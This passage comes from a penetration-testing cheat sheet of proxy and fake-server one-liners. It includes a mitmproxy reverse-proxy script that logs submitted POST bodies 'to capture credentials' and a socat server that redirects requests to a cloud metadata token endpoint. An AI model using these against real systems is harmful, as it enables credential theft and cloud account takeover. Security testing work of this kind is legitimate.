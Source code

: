                                         let NUMDOM++
                                        echo -ne "\r>Progress: ${NUMDOM} of ${NUM} ($(awk "BEGIN {printf \"%0.2f\",(${NUMDOM}*100)/${NUM}}")%)\r"
                                        break
                                fi
                        done
                done
        fi
done < ${FILE}
wait
```

<br># Reverse Proxy (mitmproxy)
<br>```mitmdump --certs ~/cert/cert.pem --listen-port 443 --scripts script.py --set block_global=false --mode reverse:https://example.com/``` # Good for capture credentials
```
$ cat script.py
import mitmproxy.http
from mitmproxy import ctx

def request(flow):
    if flow.request.method == "POST":
        ctx.log.info(flow.request.get_text())
        f = open("captured.log", "a")
        f.write(flow.request.get_text() + '\n')
        f.close()
```

<br># Port Forwarding (socat)
<br>```sudo socat -v TCP-LISTEN:80,fork TCP:127.0.0.1:81```

<br># Reverse Proxy (socat)
<br>```socat -v -d -d TCP-LISTEN:8101,reuseaddr,fork TCP:127.0.0.1:8100```
<br>```sudo socat -v -d -d openssl-listen:8443,cert=cert.pem,reuseaddr,fork,verify=0 SSL:127.0.0.1:443,verify=0```

<br># SOCKS Proxy
<br>```ssh -N -D 0.0.0.0:1337 localhost```

https://github.com/projectdiscovery/proxify/
<br># Swiss Army Knife Proxy for rapid deployments. Supports multiple operations such as request/response dump, filtering and manipulation via DSL language, upstream HTTP/Socks5 proxy.
<br>```proxify -socks5-proxy socks5://127.0.0.1:9050```

<br># Fake HTTP Server
<br>```while true ; do echo -e "HTTP/1.1 200 OK\r\nConnection: close\r\nContent-Length: 2\r\n\r\nOK" | sudo nc -vlp 80; done```
<br>```socat -v -d -d TCP-LISTEN:80,crlf,reuseaddr,fork 'SYSTEM:/bin/echo "HTTP/1.1 200 OK";/bin/echo "Connection: close";/bin/echo "Content-Length: 2";/bin/echo;/bin/echo "OK"'```
<br>```socat -v -d -d TCP-LISTEN:80,crlf,reuseaddr,fork 'SYSTEM:/bin/echo "HTTP/1.1 302 Found";/bin/echo "Content-Length: 0";/bin/echo "Location: http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token";/bin/echo;/bin/echo'```
<br>```FILE=image.jpg;socat -v -d -d TCP-LISTEN:80,fork "SYSTEM:/bin/echo 'HTTP/1.1 200 OK';/bin/echo 'Content-Length: '`wc -c<$FILE`;/bin/echo 'Content-Type: image/png';/bin/echo;dd 2>/dev/null<$FILE"``` # Present an image
<br>```python2 -m SimpleHTTPServer 8080```
<br>```python3 -m http.server 8080```
<br>```php -S 0.0.0.0:80```
<br>```ruby -run -e httpd . -p 80```
<br>```busybox httpd -f -p 80```
    
<br># Fake HTTPS Server
<br>```openssl req -new -x509 -keyout test.key -out test.crt -nodes```
<br>```cat test.key test.crt > test.pem```
```